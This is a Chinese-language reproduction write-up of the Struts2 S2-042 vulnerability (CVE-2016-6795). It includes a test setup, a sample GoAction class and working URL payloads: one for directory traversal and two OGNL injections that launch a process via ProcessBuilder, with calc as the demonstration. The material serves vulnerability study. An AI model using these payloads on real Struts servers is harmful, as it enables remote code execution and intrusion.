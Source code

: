 （CVE-2016-6795）s2-042
=======================

一、漏洞简介
------------

在进行struts2开发时，需要在配置文件(struts.xml)中写一个个action，和对应返回结果的result(可以理解为前端返回的jsp文件)。但是，写的action多了，配置起来就显得特别繁琐了。struts2
Convention插件可以完全抛弃配置，也就是约定优于配置通过这个插件来实现目录的遍历

二、漏洞影响
------------

Struts 2.3.20 - Struts 2.3.31

三、复现过程
------------

1.  测试环境搭建

-   \*\*(1)\*\*struts版本: struts2.3.24.1

-   \*\*(2)\*\*convention插件版本: struts2-convention-plugin-2.3.24.1

将`struts2-convention-plugin-2.3.24.1.jar`复制到`/WEB-INF/lib`目录下。

2.  样例代码

新建一个GoAction类，放在`action`包下(`convention`插件的默认约定位置)。

    package action;

    import com.opensymphony.xwork2.ActionSupport;

    public class GoAction extends ActionSupport {

        private String go;
        private String methodToOGNL;

        public String execute(){
            return go;  //方法的返回值，即为resultCode
        }

        public String getGo() {
            return go;
        }
        public void setGo(String go) {
            this.go = go;
        }
        public String getMethodToOGNL() {
            return methodToOGNL;
        }
        public void setMethodToOGNL(String methodToOGNL) {
            this.methodToOGNL = methodToOGNL;
        }        
    }

在`/WEB-INF/content`目录下，新建一个`admin.jsp`:

    <body>      Hello Admin~~ <br>
      </body> 

3.  攻击和调试分析

上述代码目的是，让`GoAction`起到一个跳转功能。

当`admin用户`经过验证，需要跳转到`jsp`页面时。
直接访问`url`:`/go?go=admin`，此时的`resultCode`为`admin`。
通过`convention`插件，会在`/WEB-INF/content`找到`admin.jsp`，返回给用户。1.png此时，我们就可以通过`go`参数来控制`resultCode`。

**(1) 遍历目录读取文件**

不防先试试跨目录。测试Payload为:

    http://www.0-sec.org:8080/MyStruts2Test/go?go=../content/admin  

这样也成功找到了`admin.jsp`。

然后，在`/WEB-INF/`下新建一个`hack.jsp文件`。简单的跨目录读取成功:

1.png**(2)执行任意代码**

在补丁分析时，我们看到修补了一个`Result`执行命令。于是，我们可以在`resultCode`中嵌入`ognl`代码试试\~
我们最后要找到`admin.jsp`文件，于是在路径中嵌入了如下Payload:

    http://www.0-sec.org:8080/MyStruts2Test/go?go=%24%7B%23_memberAccess%5B%22excludedClasses%22%5D%3D%7B1%7D%2Cnew%20java.lang.ProcessBuilder%28%27calc%27%29.start%28%29%7D%2f..%2fadmin

打断点分析可以看到:

1.png

找到`admin.jsp`文件后的Result为`org.apache.struts2.dispatcher.ServletDispatcherResult`对象，并且`parse`属性为true。`location`属性中带有OGNL语句，和S2-016漏洞一样，成功运行植入的代码，弹出计算器:

2.png

**(3)另一种控制**`resultCode`**方法**

可能注意到了`methodToOGNL`这个变量没有用，当我们可以选择调用`action`的某个方法时，比如还有最近出现的`rest`插件或者打开`动态方法调用`：

    <constant name="struts.enable.DynamicMethodInvocation" value="true" />

于是就有了如下payload:

    http://www.0-sec.org:8080/MyStruts2Test/go!getMethodToOGNL?methodToOGNL=%24%7B%23_memberAccess%5B%22excludedClasses%22%5D%3D%7B1%7D%2Cnew%20java.lang.ProcessBuilder%28%27calc%27%29.start%28%29%7D%2f..%2fadmin

我调用了`getMethodToOGNL`方法，返回`methodToOGNL`变量的值。就能简接控制`resultCode`了。当然成功弹出计算器。这种情况，相比前面的情况。恐怕就要普遍些了吧\~

**条件: 只需**`action`**中有个**`String`**变量即可。**

